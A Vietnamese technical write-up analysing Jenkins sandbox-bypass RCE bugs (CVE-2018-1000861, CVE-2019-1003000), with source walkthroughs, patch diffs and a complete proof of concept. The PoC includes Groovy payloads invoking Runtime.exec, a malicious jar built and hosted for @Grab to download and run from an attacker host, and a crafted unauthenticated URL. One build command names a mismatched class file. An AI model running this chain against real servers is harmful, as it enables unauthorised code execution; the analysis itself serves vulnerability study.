





# Phân tích Jenkins RCE - Bypass sandbox

## I) Buliding
- Các bạn có thể chạy file docker ở [đây](https://github.com/adamyordan/cve-2019-1003000-jenkins-rce-poc) 
 hoặc cài đặt jenkins ver 2.137  trở xuống, rồi lấy lấy dữ liệu ở [sample-vuln\jenkinsdata](https://github.com/adamyordan/cve-2019-1003000-jenkins-rce-poc/tree/master/sample-vuln/jenkinsdata) thay thế dữ liệu ở thư mục jenkins home của các bạn.
 - Các bạn cũng có thể tự cài các plugin theo đúng ver có bug, nhưng mình khuyến nghị không nên vì các plugin này đã rất cũ. Bây giờ cài vào sẽ có chút khó khăn hơn (khó khăn gì thì cài đi rồi biết :) )
 - Trong bài này, mình sẽ phân tích một số lỗ hổng trên jenkins có thể bypass sandbox dẫn đến RCE:  
	[CVE-2018-1000861: Code execution through crafted URLs](https://www.jenkins.io/security/advisory/2018-12-05/#SECURITY-595)  
	[CVE-2019-1003000: Sandbox Bypass in Script Security and Pipeline Plugins](https://www.jenkins.io/security/advisory/2019-01-08/#jenkins-security-advisory-2019-01-08)  
	[CVE-2019-1003029: Sandbox Bypass in Script Security Plugin](https://www.jenkins.io/security/advisory/2019-03-06/)  
 ## II) Phân tích
 ### 1. CVE-2018-1000861
  Jenkins sử dụng  [Dynamic Routing](https://www.jenkins.io/doc/developer/handling-requests/routing/) để có được sự linh hoạt hơn. Họ sử dụng một quy ước đặt tên để xử lý URL và gọi các method.
  Đầu tiên jenkins tách các token trên url được cách nhau bởi dấu '/' ra, sau đó bắt đầu từ class [jenkins.model.Jenkins](https://github.com/jenkinsci/jenkins/blob/jenkins-2.153/core/src/main/java/jenkins/model/Jenkins.java) nếu token khi đưa vào quy tắc đặt tên dưới đây mà khớp với một public class member hoặc public method của lớp cha thì jenkins sẽ gọi đệ quy:
 
 ```java
get<token>()
get<token>(String)
get<token>(Int)
get<token>(Long)
get<token>(StaplerRequest)
getDynamic(String, …)
doDynamic(…)
do<token>(…)
js<token>(…)
Class method with @WebMethod annotation
Class method with @JavaScriptMethod annotation
  ```
  
  Ví dụ mình thực hiện truy cập tới "http://jenkin-host.local/securityRealm/user/[username]/descriptorByName/[descriptor_name]/" thì jenkins sẽ thực hiện gọi :
  
  ```java
 jenkins.model.Jenkins.getSecurityRealm()
.getUser([username])
.getDescriptorByName([descriptor_name])
  ```
  
  - Và vì trong java tất cả các class đều là lớp con của java.lang.Object, vậy nên chúng ta cũng có thể gọi các method getClass() 
  ```
  GET /adjuncts/whatever/class/classLoader/resource/index.jsp/content
  ```
  ```java
 jenkins.model.Jenkins.getAdjuncts("whatever") 
.getClass()
.getClassLoader()
.getResource("index.jsp")
.getContent()
  ```
  #### Whilelist bypass
  
  Chúng ta có thể chia ACL của jenkins thành 3 type:
  - Full Access: Toàn quyền sử dụng jenkins, khi có đặc quyền này user có thể thực thi tùy ý Groovy code với Script Console.
  - Read-only Mode: Ở chế độ này, user có quyền đọc tất cả các nội dung, nhưng không có quyền thực thi các câu lệnh Groovy. Với hacker khi có được quyền này, họ có thể lấy được các resource private. Ở mode này, flag ANONYMOUS_READ=True.
  - Authenticated Mode: Ở chế độ này, nếu user không có thông tin xác thực hợp lệ thì sẽ không thể đọc bất cứ thông tin nào. Ở mode này flag ANONYMOUS_READ=False
  
  Khi ANONYMOUS_READ=False thì entry point sẽ thực hiện thêm jenkins.model.Jenkins#getTarget() để check xem URL có nằm trong whilelist hay không.
  
  Để tìm thấy whilelist, trên Intellij ta ấn ctrl+n nhập class "jenkins.model.jenkins", tiếp tục ctrl+f12 để show các method trong class. ta nhập "getTarget()" để tìm hàm getTarget().
  
  
  
  
```java
public Object getTarget() {
        try {
            checkPermission(READ);
        } catch (AccessDeniedException e) {
            if (!isSubjectToMandatoryReadPermissionCheck(Stapler.getCurrentRequest().getRestOfPath())) {
                return this;
            }

            throw e;
        }
        return this;
    }
```

  Ấn ctrl và click vào hàm "isSubjectToMandatoryReadPermissionCheck" ta được đưa tới hàm "isSubjectToMandatoryReadPermissionCheck"
```java
public boolean isSubjectToMandatoryReadPermissionCheck(String restOfPath) {
        for (String name : ALWAYS_READABLE_PATHS) {
            if (restOfPath.startsWith(name)) {
                return false;
            }
        }

        for (String name : getUnprotectedRootActions()) {
            if (restOfPath.startsWith("/" + name + "/") || restOfPath.equals("/" + name)) {
                return false;
            }
        }
```
   Ấn ctrl và click vào "ALWAYS_READABLE_PATHS" ta được đưa tới whilelist
  
  ```java
  private static final ImmutableSet<String> ALWAYS_READABLE_PATHS = ImmutableSet.of(
"/login",
"/logout",
"/accessDenied",
"/adjuncts/",
"/error",
"/oops",
"/signup",
"/tcpSlaveAgentListener",
"/federatedLoginService/",
"/securityRealm",
"/instance-identity"
);
  ```
  
  Chúng ta sẽ bị hạn chế với entrances này. Nhưng nếu chúng ta tìm được một tham chếu mà entrances thuộc whilelist nhưng lại có thể gọi chéo tới một objects khác thì chúng ta vẫn chó thể bypass.
  
  ```
  GET /securityRealm/user/[username]/descriptorByName/[descriptor_name]/
  ```
  ```java  
 jenkins.model.Jenkins.getSecurityRealm()
.getUser([username])
.getDescriptorByName([descriptor_name])
  ```
  Trong jenkins, tất cả các objects có thể dược extend  [hudson.model.Descriptor](https://github.com/jenkinsci/jenkins/blob/jenkins-2.153/core/src/main/java/hudson/model/Descriptor.java) và tất cả các objects đươc extend hudson.model.Descripto đều có thể truy cập method [hudson.model.DescriptorByNameOwner#getDescriptorByName(String)](https://github.com/jenkinsci/jenkins/blob/jenkins-2.153/core/src/main/java/hudson/model/DescriptorByNameOwner.java). Có rất nhiều class có thể truy cập, thế nhưng hầu hết chúng đều có kiểm tra quyền trước khi thực thi. Thế nhưng điều này có thể được sử dụng làm bước đệm trong một luồng khai thác của bug khác.
 
 ##### Fix: 
 Khi mình chạy với phiên bản jenkins core 2.153, mình nhận ra khi chúng ta gọi tới phương thức getUser(). muốn gọi getDescriptorByName() nó phải đi qua phương thức getTarget() ở class User(). Thử diff 2 phiên bản xem có gì khác biệt, mình phát hiện ra ở class User đã được thêm phương thức getTarget() để kiểm tra quyền READ. Nếu k có quyền READ, chúng ta không thể tiếp tục gọi getDescriptorByName() được nữa. Đồng nghĩa với việc chúng ta cần 1 tài khoản có quyền READ. 
 
 
  ### 2. CVE-2019-1003000
  "Pipeline: Groovy" Cho phép người dùng xây dựng, kiểm tra, thử nghiệm và phân phối phần mềm dễ dàng hơn. Từ góc nhìn từ dev, pipeline rất nguy hiểm do nó có thể kiểm soát toàn jenkins, nên nó cần được kiểm tra quyền một cách nghiêm ngặt trước khi thực thi.
  
  Tuy nhiên, chúng ta có thể thấy một [method](https://github.com/jenkinsci/workflow-cps-plugin/blob/workflow-cps-2.61/src/main/java/org/jenkinsci/plugins/workflow/cps/CpsFlowDefinition.java) không có kiểm tra quyền user, nó phân tích xem cú pháp của các tập lệnh mà user sử dụng có chính xác hay không. Với góc nhìn của dev thì điều này khá là an toàn, vì đây chỉ là trình phân tích cú pháp chứ không hề thực thi chúng.
  
  
  ```java
   public JSON doCheckScriptCompile(@QueryParameter String value) {
            try {
                CpsGroovyShell trusted = new CpsGroovyShellFactory(null).forTrusted().build();
                new CpsGroovyShellFactory(null).withParent(trusted).build().getClassLoader().parseClass(value);
            } catch (CompilationFailedException x) {
                return JSONArray.fromObject(CpsFlowDefinitionValidator.toCheckStatus(x).toArray());
            }
            return CpsFlowDefinitionValidator.CheckStatus.SUCCESS.asJSON();
            // Approval requirements are managed by regular stapler form validation (via doCheckScript)
        }
  ```
  
 Với phương thức "GroovyClassLoader.parseClass(...)" jenkins thực hiện phân tích cú pháp chứ không hề execute code, nên nếu bạn thử chạy đoạn code groovy dưới đây, nó sẽ không thực hiện được:
 ```java
 this.class.classLoader.parseClass('''
    print java.lang.Runtime.getRuntime().exec("id")
    ''');
 ```
 Như thế method trên chỉ thực hiện compile chứ không hề run payload của mình đưa vào. Vậy có cách nào để thực thi code trong compile-time không?
  #### Meta-Programming
  - Meta-Programming là một khái niệm trong lập trình, nó cung cấp một abstract layer để dev nhìn nhận chương trình theo một cách khác, và khiến chương trình linh hoạt + hiệu quả hơn.
  Khi nói về tới Meta-Programming, chúng ta phân nó thành compile-time và run-time Meta-Programming. Ở đây chúng ta quan tâm tới compile-time.
  
  Công việc compile là một công việc phức tạp và có rất nhiều tính năng ẩn, liệu chúng ta có thể tận dụng chúng không? Ví dụ dưới đây sử dụng Meta-Programming C tạo ra những chương trình nguy hiểm

- khởi tạo vùng nhớ 16Gb ELF chỉ với 16 Bytes:
```c++
int main[-1u]={1};
```
- Tính dãy Fibonacci trong lúc compile:
 ```c++
 template<int n>
struct fib {
    static const int value = fib<n-1>::value + fib<n-2>::value;
};
template<> struct fib<0> { static const int value = 0; };
template<> struct fib<1> { static const int value = 1; };

int main() {
    int a = fib<10>::value; // 55
    int b = fib<20>::value; // 6765
    int c = fib<40>::value; // 102334155
}
 ```
 
 Quay lại vấn đề của chúng ta, Groovy là một Meta-Programming. Chúng ta có thể sử dụng ASTTest để thực thi code trong thời gian compile.
 ```java
 this.class.classLoader.parseClass('''
@groovy.transform.ASTTest(value={
    assert java.lang.Runtime.getRuntime().exec("touch pwned")
})
def x
''');
 ```
 Thế nhưng jenkins sử dụng [Pipeline Shared Groovy Libraries Plugin](https://plugins.jenkins.io/workflow-cps-global-lib/) để tái sử dụng thư viện trong Pipeline. Khi sử dụng pligin này, thư viện chỉ được nạp vào trước lúc thực thi. Vậy nên nếu chúng ta sử dụng ASTTest như trên, chúng ta sẽ gặp lỗi thiếu thư viện và không thể thực thi code.
 
 Vậy có cách nào để tải thư viện từ ngoài classpath không?
 
 May thay chúng ta có [@Grab](http://docs.groovy-lang.org/latest/html/documentation/grape.html), thứ có thể tải thư viện ngoài classpath trong thời gian compile.
 
 ```Groovy
 this.class.classLoader.parseClass('''
 @GrabResolver(name='vietnq.org', root='http://[your-host]/')
 @Grab(group='org.vietnq', module='poc', version='win1')
 import Vietnq;
''')
 ```
 
 * Nhưng mà, sau khi tải lib vào classpath rồi, làm sao chúng ta có thể thực thi chúng??? Mình đã thử xem thử grab nó xử lý như thế nào:
 Mình nhảy vào class [groovy.grape.GrapeIvy](https://github.com/groovy/groovy-core/blob/master/src/main/groovy/grape/GrapeIvy.groovy) và tới method processOtherServices()
 
 ```java
 void processOtherServices(ClassLoader loader, File f) {
        try {
            ZipFile zf = new ZipFile(f)
            ZipEntry serializedCategoryMethods = zf.getEntry("META-INF/services/org.codehaus.groovy.runtime.SerializedCategoryMethods")
            if (serializedCategoryMethods != null) {
                processSerializedCategoryMethods(zf.getInputStream(serializedCategoryMethods))
            }
            ZipEntry pluginRunners = zf.getEntry("META-INF/services/org.codehaus.groovy.plugins.Runners")
            if (pluginRunners != null) {
                processRunners(zf.getInputStream(pluginRunners), f.getName(), loader)
            }
        } catch(ZipException ignore) {
            // ignore files we can't process, e.g. non-jar/zip artifacts
            // TODO log a warning
        }
    }
 ```
 *Mình thử nhảy vào hàm "processRunners" xem sao:*
 
 ```java
 void processRunners(InputStream is, String name, ClassLoader loader) {
        is.text.readLines()*.trim().findAll{ !it.isEmpty() && it[0] != '#' }.each {
            try {
                GroovySystem.RUNNER_REGISTRY[name] = loader.loadClass(it).newInstance()
            } catch (Exception ex) {
                throw new IllegalStateException("Error registering runner class '" + it + "'", ex)
            }
        }
    }
 ```
 
  Good jobbb. Ta thấy nó có gọi "loader.loadClass(it).newInstance()" nghĩa là chúng gọi tới Constructor của class được nạp vào. Bây giờ ta có thể viết PoC được rồi...
  
 **Trước tiên ta cần tạo file thư viện jar:**
 
 *File: Vietnq.java*
 ```java
 public class Vietnq {
	public Vietnq(){
		try {
			java.lang.Runtime.getRuntime().exec("calc");
		} catch (Exception e) { }

	}
}
 ```
 
 *File: poc-win1.pom*
 ```xml 
<project>
    <modelVersion>4.0.0</modelVersion>
    <groupId>org.vietnq</groupId>
    <artifactId>poc</artifactId>
    <version>win1</version>
</project>
 ```
 *ps: Các bạn lưu ý phiên bản java. vì jenkins sử dụng java 8 nên chúng ta cũng phải dùng java 8 để tạo thư viện nhé!*
 
 ```
 $ javac Vietnq.java
 $ mkdir -p META-INF/services/
 $ echo Vietnq > META-INF/services/org.codehaus.groovy.plugins.Runners
 $ jar cvf poc-win1.jar ./Orange.class /META-INF/
 $ sudo cp poc-win1.jar /var/www/html/org/vietnq/poc/win1/poc-win1.jar
 $ sudo cp poc-win1.pom /var/www/html/org/vietnq/poc/win1/poc-win1.pom
 $ curl -I http://[your_host]/org/vietnq/poc/win1/poc-win1.jar
 ```
 
 **Bây giờ chúng ta thử chạy Groovy code xem việc tải file jar và gọi đã thành công chưa:**
 ```Groovy
 this.class.classLoader.parseClass('''
@GrabConfig(disableChecksums=true)
@GrabResolver(name='vietnq', root='http://[your_host]/')
@Grab(group='org.vietnq', module='poc', version='win1')
import Vietnq
''')
 ```

 **Và bây giờ, kết hợp tất cả những gì ở trên, ta có PoC:**
 ```url
 http://[jenkins-host]/securityRealm/user/jenkins/descriptorByName/org.jenkinsci.plugins.workflow.cps.CpsFlowDefinition/checkScriptCompile
?value=
@GrabConfig(disableChecksums=true)
 @GrabResolver(name='vietnq.org', root='http://[your-host]/')
 @Grab(group='org.vietnq', module='poc', version='win1')
 import Vietnq;
 ```
  ##### Fix: 
  Khi mình kiểm tra 2 phiên bản Pipeline: Groovy 2.61 và 2.61.1, mình thấy ở method doCheckScriptCompile() đã có thêm hành động check quyền, và có thêm 1 parameter "Item job" đồng nghĩa với việc mình không thể gọi method này với việc thao tác URL nữa
  
  
  
#### Ref:
- https://blog.orange.tw/2019/01/hacking-jenkins-part-1-play-with-dynamic-routing.html
- https://blog.orange.tw/2019/02/abusing-meta-programming-for-unauthenticated-rce.html
